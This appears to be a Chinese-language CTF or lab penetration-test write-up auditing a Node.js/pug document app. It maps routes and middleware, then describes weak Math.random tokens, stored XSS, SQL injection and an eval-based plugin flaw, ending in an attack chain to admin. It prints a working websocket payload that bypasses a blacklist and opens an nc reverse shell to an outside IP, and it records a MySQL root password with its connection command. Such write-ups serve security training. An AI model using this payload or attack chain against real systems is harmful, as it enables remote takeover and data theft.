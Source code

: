 # 信息收集
## 背景信息
- 项目代码类型：后端node.js，前端pug.js
- 部署工具: webpack
- 文件结构：
  - client-src:前端的静态文件和js文件，前端路由
  - server-src:后端api
  - app.js: 程序入口
## 配置信息
- webpack.config.js：client-src前端入口打包配置，没有发现，开启了disk
- application_setting.json: 开启websocket
- app.js: 中间件路由，所有请求要走的中间件包括customAuthMiddleware，customDocMiddleware，customPluginMiddleware
- server-src/settings.js: 后端配置，debug的mysql账号是root，密码71bfaf52714a338c3bc34add6d1d12716bed0f1d76cb2602d119aa425307feb8，数据库为docedit。连接命令mysql -h 127.0.0.1 -u root -p71bfaf52714a338c3bc34add6d1d12716bed0f1d76cb2602d119aa425307feb8
## 前端路由信息
先看下路由信息有哪些路径可以走，以及权限设置，包括：
- 无需授权：
  - /home: 主页
  - /login：登录
  - /register: 注册
- 需要授权
  - /logout：登出
  - /d/delete/:id和/document/delete/:id：文件删除
  - /d/:id和/document/:id'：指定文件
  - /d和/document：新文件
  - /profile：用户个人信息编辑
  - /server：管理员用户查看server配置

## 接口信息
项目中关键的业务接口，不包含静态资源和状态检查接口，以及用于规范结构的函数
- 前置路由
  - custom-auth-middleware-ws：websocket验证token通过findone方法，虽然没有过滤但是使用Sequelize，会将方法参数化
  - custom-auth-middleware.js：同上，但是'/','/login','/register','logout'不用授权，x-local-storage-token的请求头存在会用这个请求头进行身份验证，或者cookie或者authorization请求头
  - custom-doc-middleware-ws.js：Sequelize列出当前用户的所有doc
  - custom-doc-middleware.js：同上
  - custom-plugin_loaded-middleware-ws.js：如果pluginController.enabledPlugins()了，就获取ws的插件
  - custom-plugin_loaded-middleware.js：如果pluginController.enabledPlugins()了，就获取traditional的插件
- 普通用户
  - /flag：读第一个旗子，不用授权就可以，前端校验
  - /login：需要email和password两个参数，cookie设置了httponly，登录成功使用User的authorize原型，使用math.random创建token
    - AuthToken：generate属性，创建token使用Math.random() 
  - /register：firstName，lastName，email，password1，password2，注册需要的参数，email作为用户是否存在的判断,参数化了
  - /profile/update：跟注册一样，更新账号密码，用的userController
    - searchByEmail: 存在sql拼接而不是参数化输入
  - /document或者/d： 创建doc，参数化创建，但是title和content后端没有xss校验
  - /document/:docid或者/d/:docid：查看指定doc渲染到pug模板中，走的doc的controller，local校验用户身份
  - /document/tag/:docid：修改tag
- Websocket路由
  - updateProfile：更新用户信息，使用usercontroller，输入没有过滤，参数有data.firstName, data.lastName, data.email,data.password1,data.password2
  - checkEmail：调用了SQL拼接的search email函数，导致SQL注入,前端是在创建文档后的指定文档的tag里
- 管理员用户
  - /server：走的plugin controller
    - pluginController.js: 使用了eval函数执行location变量，且该变量用户可控制，虽然设置了黑名单blacklist = ["require", "child_process"]但是可以被绕过
  - /plugin/:name/:enable：控制是否开启plugin
# 情报分析和威胁建模
1. 权限管理不当：flag只要注册用户就能读到
2. token使用伪随机Random：使用了伪随机，可以直接爆破出来
3. cookie：虽然有js的控制，但是没有失效时间控制
4. 储存型XSS： doc可以写入js代码，toggle会弹xss
5. 模板注入：server接口的plugin，用户可控制的location参数执行代码，使用```42["togglePlugin",{"name":"chat_ws')];var m=process.mainModule.constructor._load;var cp=m('child'+'_process');cp.exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.186 443 >/tmp/f',function(){});//","enable":false,"token":"bnrftMbdOE6ZBfxP84a95A6qGoyjKXM1"}]```导致命令执行
6. SQL注入：更新doc的tag时时，使用字符串拼接，可能导致sql注入
# 攻击链
注册用户 -> 登录注册用户，使用token获取第一个flag -> 更新doc的tag时输入的email使用bool盲注获取管理员token()（表AuthTokens的UserId为1 ）-> 进入管理员用户 -> 通过/server进行模板注入执行命令